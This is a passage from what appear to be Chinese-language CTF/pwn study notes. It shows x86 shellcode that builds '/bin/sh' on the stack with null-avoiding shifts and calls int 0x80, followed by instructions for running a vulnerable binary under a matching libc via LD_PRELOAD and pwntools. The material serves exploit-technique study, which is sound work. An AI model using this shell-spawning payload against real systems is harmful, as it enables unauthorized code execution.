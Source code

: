 ```
    xor ebx, ebx
    mov bl, 0x68
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    mov bh, 0x73
    mov bl, 0x2f
    push ebx
    nop
    
    /*Push "/bin" on the stack*/
    mov bh, 0x6e
    mov bl, 0x69
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    shl ebx
    mov bh, 0x62
    mov bl, 0x2f
    push ebx
    nop
              
    /*Move the esp (that points to "/bin/sh\x00") in ebx*/
    mov ebx, esp/*Syscall*/
    int 0x80
```
:::
### 如何讓環境執行在指定的libc和loader中
如果不想要費事裝VM或wsl就可以直接用@ccccc提供的腳本，讓這支程式跑在和server一樣的環境，==所以要把對應環境的loader和libc載下來==，用法如下:
```bash
$ python {script path} {new env loader path} {original elf file}
# e.g. python ./LD_PRELOAD.py ./ld-2.27.so ./vuln
```
他會產生一個新的執行檔，名字是`V`，在pwntools寫的腳本也要改，用法如下
```python
r = process('./V',env={"LD_PRELOAD" : "./libc-2.27.so"})
```
